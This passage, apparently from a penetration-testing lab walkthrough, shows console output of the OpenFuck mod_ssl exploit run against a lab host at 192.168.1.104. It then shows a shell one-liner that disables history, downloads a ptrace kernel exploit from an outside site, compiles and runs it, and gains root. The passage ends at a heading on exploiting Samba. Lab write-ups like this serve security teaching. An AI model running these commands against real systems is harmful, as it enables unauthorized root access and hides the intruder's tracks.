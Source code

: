 ```console
Ready to send shellcode  
Spawning shell...  
Good Bye!  
root@kali:~# ./a.out 0x6b 192.168.1.104 -c 50  
  
*******************************************************************  
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *  
*******************************************************************  
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *  
* #hackarena  irc.brasnet.org                                     *  
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *  
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *  
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *  
*******************************************************************  
  
Connection... 50 of 50  
Establishing SSL connection  
cipher: 0x4043808c   ciphers: 0x80f81e8  
Ready to send shellcode  
Spawning shell...  
bash: no job control in this shell  
bash-2.05$   
bash-2.05$ unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p;   
--01:03:53--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c  
           => `ptrace-kmod.c'  
Connecting to dl.packetstormsecurity.net:80... connected!  
HTTP request sent, awaiting response... 301 Moved Permanently  
Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]  
--01:03:53--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c  
           => `ptrace-kmod.c'  
Connecting to dl.packetstormsecurity.net:443... connected!  
HTTP request sent, awaiting response... 200 OK  
Length: 3,921 [text/x-csrc]  
  
    0K ...                                                   100% @ 957.28 KB/s  
  
01:03:54 (957.28 KB/s) - `ptrace-kmod.c' saved [3921/3921]  
  
[+] Attached to 6225  
[+] Signal caught  
[+] Shellcode placed at 0x4001189d  
[+] Now wait for suid shell...  
whoami  
root  
```
  
Let's check out other ways.

___________________________________________

## 4\. Exploiting Samba (and getting root too!)
